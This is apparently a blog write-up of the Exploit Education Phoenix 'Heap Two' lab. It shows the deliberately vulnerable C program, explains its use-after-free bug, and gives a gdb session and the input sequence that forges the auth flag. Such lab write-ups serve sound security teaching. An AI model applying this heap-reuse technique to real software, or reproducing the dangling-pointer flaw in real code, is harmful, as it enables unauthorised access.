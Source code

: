 ```yaml
---
title: " Exploit Education | Phoenix | Heap Two"
permalink: "exploit-education/phoenix/:title"
layout: post
---
```



```c
#include <err.h>
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <unistd.h>

#define BANNER \
  "Welcome to " LEVELNAME ", brought to you by https://exploit.education"

struct auth {
  char name[32];
  int auth;
};

struct auth *auth;
char *service;

int main(int argc, char **argv) {
  char line[128];

  printf("%s\n", BANNER);

  while (1) {
    printf("[ auth = %p, service = %p ]\n", auth, service);

    if (fgets(line, sizeof(line), stdin) == NULL) break;

    if (strncmp(line, "auth ", 5) == 0) {
      auth = malloc(sizeof(struct auth));
      memset(auth, 0, sizeof(struct auth));
      if (strlen(line + 5) < 31) {
        strcpy(auth->name, line + 5);
      }
    }
    if (strncmp(line, "reset", 5) == 0) {
      free(auth);
    }
    if (strncmp(line, "service", 6) == 0) {
      service = strdup(line + 7);
    }
    if (strncmp(line, "login", 5) == 0) {
      if (auth && auth->auth) {
        printf("you have logged in already!\n");
      } else {
        printf("please enter your password\n");
      }
    }
  }
}
```

The is a classic use-after-free exploit, if we enter **"auth AAAA"** the code allocates memory and stores it in **auth** then copies the name **AAAA** to **auth->name**, so far so good.

To login we need **auth** to point to a memory address and **auth->auth** not to be zero, we can't overflow **name** since there is a length checking **strlen**.

The bug here is that **reset ** frees **auth** allocated memory but **auth** still points to that memory location which could contain anything, **auth** here is called a **dangling pointer**.

The way **strdup** function works is it uses **malloc** under the hood to allocate memory for a new string, and the way **malloc** works (in very little details) is that it first looks if there is a previously-freed chunk of  memory, and that chunk is big enough to service the request, it will use that freed chunk for the new allocation.

So if we allocated memory for **auth**, freed that memory then entered **service** the **strdup** function will use the previously freed memory address of **auth**, and now we can write anything to **auth->auth** (we are writing to **service** but **auth** points to that address already).

The goal here is only to change **auth->auth** to any thing so we will just use some junk.

```
user@phoenix-amd64:~$ gdb -q /opt/phoenix/i486/heap-two
Reading symbols from /opt/phoenix/i486/heap-two...(no debugging symbols found)...done.

gef➤  disassemble main
Dump of assembler code for function main:
.....
   0x080487e4 <+367>:	mov    eax,ds:0x8049adc
   0x080487e9 <+372>:	mov    eax,DWORD PTR [eax+0x20]
   0x080487ec <+375>:	test   eax,eax
.....

gef➤  b *0x080487e9
Breakpoint 1 at 0x80487e9

gef➤  r
Starting program: /opt/phoenix/i486/heap-two 

Welcome to phoenix/heap-two, brought to you by https://exploit.education
[ auth = 0, service = 0 ]
auth AAAA
[ auth = 0x8049af0, service = 0 ]
reset 
[ auth = 0x8049af0, service = 0 ]
serviceAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAABBBB
[ auth = 0x8049af0, service = 0x8049af0 ]
login 

Breakpoint 1, 0x080487e9 in main ()

gef➤  x/xw $eax+0x20
0x8049b10:	0x42424242		# value of auth->auth

gef➤  c
Continuing.
you have logged in already!
[ auth = 0x8049af0, service = 0x8049af0 ]
```

# Solution:

```
$ /opt/phoenix/i486/heap-two 
Welcome to phoenix/heap-two, brought to you by https://exploit.education
[ auth = 0, service = 0 ]
auth AAAA
[ auth = 0x8049af0, service = 0 ]
reset 
[ auth = 0x8049af0, service = 0 ]
serviceAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAABBBB
[ auth = 0x8049af0, service = 0x8049af0 ]
login 
you have logged in already!
```